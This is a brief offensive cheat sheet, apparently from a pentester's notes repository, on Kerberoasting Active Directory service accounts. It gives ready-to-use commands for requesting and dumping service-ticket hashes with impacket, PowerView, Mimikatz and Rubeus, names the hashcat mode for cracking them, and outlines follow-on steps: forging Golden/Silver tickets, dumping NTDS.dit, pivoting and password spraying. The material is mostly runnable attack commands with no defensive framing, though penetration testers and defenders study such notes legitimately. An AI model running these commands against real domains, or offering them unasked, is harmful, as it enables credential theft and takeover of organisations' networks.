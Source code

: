 # kerberoasting

All domain users can request a copy of all service accounts along with their password hashes. This allows user to
request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to crack service
password.

* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

## Usage

### impacket

```bash
impacket-GetUserSPNs DOMAIN.com/USER:'PASS' -dc-ip DC_IP -request
# hashcat -m 13100
```

### using powerview

```bash
#Get User Accounts that are used as Service Accounts
Get-NetUser -SPN

#Get every available SPN account, request a TGS and dump its hash
Invoke-Kerberoast

#Requesting the TGS for a single account:
Request-SPNTicket
  
#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### using rubeus

```bash
# using Rubeus.exe
Rubeus.exe kerberoast /domain:DOMAIN /creduser:USER /credpassword:PASS [/rc4opsec]
/rc4opsec: safe kerberoasting (not on AES enabled accounts)

```

## post kerberoasting

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts